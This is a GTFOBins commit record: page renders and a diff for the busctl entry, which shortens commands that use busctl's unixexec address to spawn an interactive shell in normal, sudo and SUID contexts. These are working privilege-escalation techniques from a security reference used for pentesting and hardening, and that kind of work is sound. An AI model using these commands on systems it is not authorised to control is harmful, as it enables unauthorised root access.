

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/busctl.md, in a window 1280 px wide. Shown: the whole page at 97% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
change set-property to list (default)

```diff
--- a/_gtfobins/busctl.md
+++ b/_gtfobins/busctl.md
@@ -6,11 +6,11 @@ functions:
         busctl --show-machine
         !/bin/sh
     - code: |
-        busctl set-property org.freedesktop.systemd1 /org/freedesktop/systemd1 org.freedesktop.systemd1.Manager LogLevel s debug --address=unixexec:path=/bin/sh,argv1=-c,argv2='/bin/sh -i 0<&2 1>&2'
+        busctl --address=unixexec:path=/bin/sh,argv1=-c,argv2='/bin/sh -i 0<&2 1>&2'
   sudo:
     - code: |
-        sudo busctl set-property org.freedesktop.systemd1 /org/freedesktop/systemd1 org.freedesktop.systemd1.Manager LogLevel s debug --address=unixexec:path=/bin/sh,argv1=-c,argv2='/bin/sh -i 0<&2 1>&2'
+        sudo busctl --address=unixexec:path=/bin/sh,argv1=-c,argv2='/bin/sh -i 0<&2 1>&2'
   suid:
     - code: |
-        ./busctl set-property org.freedesktop.systemd1 /org/freedesktop/systemd1 org.freedesktop.systemd1.Manager LogLevel s debug --address=unixexec:path=/bin/sh,argv1=-pc,argv2='/bin/sh -p -i 0<&2 1>&2'
+        ./busctl --address=unixexec:path=/bin/sh,argv1=-pc,argv2='/bin/sh -p -i 0<&2 1>&2'
 ---
```
